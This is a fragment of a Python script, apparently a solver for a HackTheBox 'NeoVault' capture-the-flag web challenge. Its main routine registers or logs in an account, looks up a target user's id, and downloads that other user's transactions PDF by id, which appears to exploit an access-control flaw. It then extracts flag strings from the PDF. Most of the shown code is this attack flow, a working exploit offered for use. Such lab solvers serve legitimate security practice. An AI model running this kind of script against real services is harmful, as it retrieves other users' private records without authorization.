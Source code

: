 ```python
        if isinstance(m, tuple):
            # If using groups, pick the non-empty part
            m = next(filter(None, m), "")
        if m and m not in normalized:
            normalized.append(m)
    return normalized

def main():
    parser = argparse.ArgumentParser(description="HackTheBox NeoVault Solver (register/login/download/extract)")
    parser.add_argument("--email", required=True, help="email to register/login with")
    parser.add_argument("--password", required=True, help="password to register/login with")
    parser.add_argument("--url", required=True, help="target base URL (e.g. https://neo.example)")
    parser.add_argument("--username", default="SecretRemo", help="username to register (default: SecretRemo)")
    parser.add_argument("--target-username", default="user_with_flag", help="username with flag to inquire")
    parser.add_argument("--out", default=None, help="output path for PDF (default platform temp)")
    args = parser.parse_args()

    base_url = args.url
    email = args.email
    password = args.password
    username = args.username
    target_username = args.target_username

    # Choose a platform-agnostic default path if not provided
    if args.out:
        out_path = Path(args.out)
    else:
        # prefer temp dir; cross-platform
        from tempfile import gettempdir
        out_path = Path(gettempdir()) / "user.pdf"

    session = requests.Session()
    session.headers.update({"User-Agent": "neovault-solver/1.0"})

    # Try register first; if registration fails because account exists, we'll still attempt login.
    registered = try_register(session, base_url, email, password, username=username)
    if not registered:
        print("[*] Continuing by attempting login (account may already exist).")

    if not login(session, base_url, email, password):
        print("[-] Unable to login; aborting.")
        sys.exit(1)

    _id = get_user_id(session, base_url, target_username)
    if not _id:
        print("[-] Failed to obtain target user id; aborting.")
        sys.exit(1)

    if not download_transactions_pdf(session, base_url, _id, out_path):
        print("[-] Failed to download PDF; aborting.")
        sys.exit(1)

    flags = extract_flag_from_pdf(out_path)
    if flags:
        print("[+] Flags found in PDF:")
        for f in flags:
            print(f"    {f}")
    else:
        print("[-] No flags found with common patterns. Full extracted text preview:")
        # show first 1000 characters to help debugging
```